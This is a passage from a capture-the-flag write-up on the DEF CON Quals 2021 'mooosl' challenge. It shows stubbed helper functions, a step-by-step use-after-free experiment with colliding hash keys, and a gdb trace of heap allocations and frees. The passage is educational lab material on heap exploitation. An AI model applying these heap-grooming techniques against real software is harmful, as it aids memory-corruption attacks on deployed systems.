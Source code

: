 (You could also use LD_PRELOAD as mhackeroni did: https://github.com/Ikiga1/writeups/tree/master/DefConQuals2021/mooosl to get the same diagnostics without the struggles of gdb)

I wrote simple functions to do `store`, `delete`, and `query`. (See [solve.py](https://github.com/cscosu/ctf-writeups/blob/master/2021/def_con_quals/mooosl/solve.py)). `store` allows for a controlled key and value size. `delete` and `query` allow for controlled key size.

```
def store(key, value, keysize=None, valuesize=None):
    ...
def delete(key, keysize=None, error=False):
    ...
def query(key, keysize=None)
    ....
```

Let's try a simple experiment to see what we can do with the use-after-free. I will be using the colliding keys found in Part 3 above.

1. `store(b'\x02\xd9', b'yeet', keysize=0x8, valuesize=0x20)`
2. `store(b'\x07\xe4', b'yeeticus', keysize=0x8, valuesize=0x20)`
3. `delete(b'\x02\xd9')` This will delete the last node in the list, but it will not be unlinked.
4. `store(b'\x0c\xef', b'yeeticus maximus', keysize=0x8, valuesize=0x20)` Store always inserts at the beginning of the list.
5. Repeat 4 two more times, to see when we get the deleted node back

Here's the sequence of calloc and free that we see:

```
# Store 1: allocate node (always 0x30)
calloc$1 = 0x30
$2 = 0x7f5071cbdc60

# Store 1: allocate key (controlled size)
calloc$3 = 0x8
$4 = 0x559ad37fcc60

# Store 1: allocate value (controlled size)
calloc$5 = 0x20
$6 = 0x7f5071cbd870

# Store 2: allocate node (always 0x30)
calloc$7 = 0x30
$8 = 0x7f5071cbdca0

# Store 2: allocate key (controlled size)
calloc$9 = 0x8
$10 = 0x559ad37fcc70

# Store 2: allocate value (controlled size)
calloc$11 = 0x20
$12 = 0x7f5071cbd8a0

# Delete: allocate key (controlled size)
calloc$13 = 0x3
$14 = 0x559ad37fcc80

# Free key for 1st store (we know via order of free's we see in Ghidra)
free$15 = 0x559ad37fcc60

# Free value for 1st store
free$16 = 0x7f5071cbd870

# Free node for 1st store
free$17 = 0x7f5071cbdc60

# Remove key from above delete
```
